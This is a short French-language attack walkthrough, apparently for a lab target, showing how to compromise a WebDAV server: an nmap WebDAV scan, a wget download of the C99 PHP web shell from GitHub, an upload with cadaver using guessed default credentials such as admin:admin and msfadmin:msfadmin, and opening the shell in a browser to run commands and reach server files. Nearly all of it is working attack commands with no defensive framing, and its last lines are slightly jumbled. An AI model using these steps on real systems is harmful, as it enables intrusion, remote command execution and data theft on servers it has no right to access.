

Vérifier si WebDAV est activé:

Scanner avec Nmap
```bash
nmap -p 80 --script=http-webdav-scan 10.6.0.7
```
Si WebDAV est actif, tu verras :
WebDAV is enabled

Télécharge le C99 PHP Shell avec wget :

```bash
wget https://raw.githubusercontent.com/phpwebshell/c99shell/refs/heads/main/c99.php -O c99.php
```
Cela va enregistrer le fichier c99.php localement.

Utilise Cadaver, un client WebDAV, pour envoyer le shell à la cible.

```bash
cadaver http://10.6.0.7/dav
```
Si le serveur demande un login, essaye :

admin:admin

msfadmin:msfadmin

webdav:webdav

Une fois connecté dans cadaver, tape :

```bash
put c99.php
```
Si l’upload réussit, vérifie avec :

```bash
ls
```

Dans ton navigateur, ouvre :

http://10.6.0.7/dav/c99.php <br>



Si WebDAV est actif, tu verras :

D’exécuter des commandes (system, exec, shell_exec)
D’accéder aux fichiers du serveur
D’uploader et télécharger des fichiers